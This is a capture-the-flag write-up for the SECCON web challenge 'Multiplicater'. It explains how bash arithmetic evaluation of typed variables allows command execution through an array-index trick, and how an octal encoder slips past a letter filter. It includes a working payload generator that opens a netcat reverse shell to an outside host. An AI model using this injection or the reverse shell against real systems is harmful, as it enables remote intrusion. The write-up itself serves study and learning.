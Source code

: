 # Multiplicater (web, 457p, 10 solved)

In the challenge we get access to a [cgi script](index.cgi).

The script is not very complex:

- It sets the variables var1 and var2 to be integer (yes, bash can have types variables!)
- It reads POST parameters we send via HTTP form, splits them with `awk` to extract the values
- Then it decodes urlencode
- Then it filters all letters from the input
- Finally it performs `bash arithmetic evaluation` of `var1 * var2`

```bash
typeset -i var1
typeset -i var2

POST_STRING=$(cat)

var1="$(echo $POST_STRING|awk -F'&' '{print $1}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"
var2="$(echo $POST_STRING|awk -F'&' '{print $2}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"

echo  "$var1" '*' "$var2 = $((var1 * var2))"
```

We don't know where the flag is, so we need an actual RCE here.

First issue here is that `tr -d a-zA-Z` removes all letters, so any payload we send has to be free of those.
This is not terrible if we can evaluate things like `'$\101'` in bash, because they will be interpolated to letters.

Another issue is that `var1` and `var2` upon assignment will be evaluated and casted to int.
Anything that is not a valid int will result in `0`.
This means that we can't really "leak" much with the last echo, because it will `always` result in integer, and it's inputs will always be integers.

This leaves us with not much space at all, we somehow need to gain RCE with `var1="$(echo SOMETHING)"`

This assignment, since the variable is typed, performs `arithmetic evaluation` before the assignment.
If we read the documentation, it `claims` thar such evaluation does perform shell expansion and variable substitution, however if we try to send a simple sanity check like `$$` as variable value, it doesn't actually work.

It took us a while, and actually someone reading through bash source code of the evaluation, to find out that there is a very special case for `evaluating array index` which is far more powerful!
I fact it provides full RCE there.

For example we can't do:

```bash
typeset -i var1
x='$(touch hacked)'
var1="$(echo $x)"
```

But we can do:

```bash
typeset -i var1
x='__[$(touch hacked)]'
var1="$(echo $x)"
```
And it actually works :)

With this it's pretty clear what to do, we just need to place a reverse-shell in such payload.
Remeber we can't use `a-zA-Z` but as mentioned earlier, we can easily bypass this:

```python
def encode(string):
    x = ["$'\\" + str(oct(ord(c)))[1:] + "'" for c in string]
    return "".join(x)
```

With this we can simply run:

```python
def main():
    echo = encode("echo")
    bash = encode("bash")
    payload = encode("nc tailcall.net 6666 | bash | nc tailcall.net 7777")
    pattern = "__[$(%s %s|%s)]" % (echo, payload, bash)
    print(pattern)


main()
```

And connect to the target server to get the flag: `SECCON{Did_you_calculate_it?}`
